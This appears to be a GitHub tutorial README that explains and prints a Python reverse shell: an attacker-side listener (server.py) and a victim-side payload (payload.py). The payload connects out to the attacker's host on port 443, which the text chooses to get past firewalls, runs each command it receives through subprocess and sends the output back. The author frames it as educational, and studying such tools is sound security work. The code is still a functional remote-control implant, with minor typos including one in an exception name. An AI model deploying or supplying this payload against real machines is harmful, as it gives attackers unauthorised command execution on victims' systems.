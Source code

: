 # Reverse-Shell
A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the attacker’s host. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack. Reverse shells can also work across a NAT or firewall.
One of the most known frameworks that ethical hackers use in order to create and commnunicate with a reverse shell is MSFVenom and MSFconsole. 

How does it work?? 
To understand the mecanism i decided to write a simple reversehell in python in order to expalin the basics of the reverse shell theory.

# Requirements
To do so we need these common python libraries: 

### socket:
This module provides access to the BSD socket interface. It is available on all modern Unix systems, Windows, MacOS, and probably additional platforms.
The Python interface is a straightforward transliteration of the Unix system call and library interface for sockets to Python’s object-oriented style: the socket() function returns a socket object whose methods implement the various socket system calls. Parameter types are somewhat higher-level than in the C interface: as with read() and write() operations on Python files, buffer allocation on receive operations is automatic, and buffer length is implicit on send operations.

### OS
This module provides a portable way of using operating system dependent functionality. We are going to use this library in order to execute the commands sent by the attacker on the victim machine

### sys
Python sys module has several methods and variables that can alter various aspects of the Python runtime environment. It permits operating on the interpreter by giving access and information about the constants, variables, and functions that have a strong interaction with the interpreter.

### subprocess
The subprocess module allows you to spawn new processes, connect to their input/output/error pipes, and obtain their return codes.

# Code explication

## server.py
this is the script the hacker will be running on his machine/server this code is going to accpet and establish communication with the client side.

Coding the server side we only need the sockett libaray.

```
server_host= "0.0.0.0"
server_port= 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
cyber = socket.socket()
```
As you can understanf from the variable names the server_host is the IP address of our server/attacker_machine we used the IP 0.0.0.0 in order to make the server reachable through all the IPv4 addresses of the server. For the server_port I used the port 443. We can use any port we want but the port 80 and 443 are widely used to bypass firewalls. data_size is the maximum ammoun of data that the client can send to the server and versversa.
SPERATOR is the seperation between the data sent or received.

then I created a socket and I called it cyber this is what we are going to use in the second part of our code.

Let's bind the socket that we created to out server IP and port that we initiated in the first two commands.
```
cyber.bind((server_host,server_port))
```
One of the most important part in creating such server is that it should have the ability to listen and accept incoming requests that why we need this two lines:
```
cyber.listen(10)
client_socket, client_ip = cyber.accept()
```
the listen function will allow us to listen to the incoming connections and the paramater 10 I used is the maximum length to which the queue of pending connections for sockfd may grow. That means if we receive 12 requests before we accept the connection then 2 of these requests will be droped.
The second line means that we accepted the connection from the client (our victim machine) and we stored the victim_socket and the victim_adress in two different variabales.
```
print(f"{client_ip[0]}:{client_ip[1]} Connected!")
```
This output will have the following format IP:PORT connected!
The first step we will do after having a connected client is to try and get the working directory on the victims devices this is why we will use the following code:
```
cmd = client_socket.recv(data_size).decode()
print("[+] Current working directory:", cmd)
```
A lot of people will be aseked why I used the decode function will because we need to encode the data in bytes to be sent theough the victim socket.
The main process of sending commands to the victims device will be in this part of the code:
```
while True:
    command = input(f"{cmd}~$ ")
    if not command.strip():
        continue
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    output = client_socket.recv(data_size).decode()
    results,cmd = output.split(SEPARATOR)
    print(results)
```
basicly what we are doing is that we are verifying if the command which is the input of the hacker is not blank if it's the case then we will encode the command and send it to the victim. If hte command in lower case is exit then we will break out that means we will shutdown the server and then the communication with the client will die. If the process is executed correctly then we can receaive data from the victim and output. This is what the last 3 lines of code are doing on our server code.

## payload.py
The payload is the portion of the malware which performs malicious action. In our case the payload is the script that will be running on the victims device. 

let's start by importing the needed libraries and setting up the varaibles we will use in order to establish the communication with the attackers server.
```
server_host = #server_IP
server_port = 443
data_size = 1024 * 128
SEPARATOR = "<sep>"
victim = socket.socket()
victim.connect((server_host,server_port))
```
This is made for educational purposes and the main goal is to explain the theory behind revere shells this is why we cab see that the hacker's IP will be in plain text. In real life senarios the payload is obfuscated so it will be so hard to identify the hackers IP.
For this part the only difference we got from the server code is in the last line victim.connect and not bind because the victim will try to connect on the server we already created.
Well the server is waiting fot our working directory this is why we should send it first to do that we will use the OS library to run a local command wich is cwd the current working directory and we will send it through the socket this is done by the following code:

```
cmd = os.getcwd()
victim.send(cmd.encode())
```

the main job of the payload is that it will execute the commands sent by the attacker to do so we need to accept the received data using this line of code:
```
    command = victim.recv(data_size).decode()
    splited_command= command.split()
```
all what we have to do is to verify that the command is not blank, if it's an exit then we will shutdown the communication then we will store the output of the executed commands and send it back to the server. All of this is made possible by this code:
```
while True:
    command = victim.recv(data_size).decode()
    splited_command= command.split()
    if command.lower() == "exit":
        break
    if splited_command[0].lower() == "cd":
        try:
            os.chdir(''.join(splited_command[1:]))
        except FileNotFounfError as e:
            output = str(e)
        else:
            output = ""
    else:
        output = subprocess.getoutput(command)
    cmd = os.getcwd()
    message = f"{output}{SEPARATOR}{cmd}"
    victim.send(message.encode())
victim.close()
```

author: cybereagle2001

used refrences : pythoncode - acunetix - docs.python - stackoverflow -wikipedia 
